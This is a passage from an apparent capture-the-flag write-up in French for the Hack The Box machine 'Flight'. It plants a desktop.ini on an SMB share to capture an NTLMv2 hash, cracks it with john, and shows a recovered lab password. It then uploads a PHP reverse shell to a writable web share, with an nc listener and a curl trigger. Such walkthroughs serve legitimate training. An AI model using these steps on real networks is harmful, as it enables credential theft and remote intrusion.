 - soit avec smbmap
```shell title="upload du fichier"
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP --upload desktop.ini Share/desktop.ini
```
- Ou avec smbclient.py :
```shell
$ smbclient.py "$AD_DOMAIN/$AD_USER:$AD_PASSWORD@$TARGET_IP"
use shared
put desktop.ini
```
 
- On attend quelques instants et on récupère le hash d'un nouvel utilisateur :
![Flight-5](../../Flight-5.png)
- Que l'on s'empresse de casser avec la commande `john --wordlist=/usr/share/wordlists/rockyou.txt SMB-NTLMv2-SSP-10.10.11.187.txt`

On récupère ainsi un nouvel utilisateur :

| Utilisateur | Mot de passe |
|--- | --- |
| `flight.htb\c.bum` | `Tikkycoll_431012284` |

## Enumération des autorisations de c.bum

On vérifie si cet utilisateur dispose d'avantage de permissions sur les partages :
```
$ cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --shares | cut -c60- | grep -i WRITE
      Shared          READ,WRITE      
      Web             READ,WRITE  
```

On reconnaît dans le partage Web une arborescence qui est en fait celle des 2 virtual hosts précédemment énuméré.

## Obtention d'un premier shell 
L'accès à ce partage étant en écriture, on a (enfin) la possibilité d'obtenir un reverse shell

On upload un reverse shell PHP puis on l'exécute :
- On lance un listener avec `rlwrap nc -lnvp 1337`
- On edite [le fichier](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php) pour configurer l'IP et le port de notre listener
- On l'upload : `smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP --upload revshell.php Web/school.flight.htb/rebrec1.php
- On exécute finalement le reverse shell : `curl -X GET http://$TARGET_IP/rebrec1.php -H "Host: school.flight.htb"`
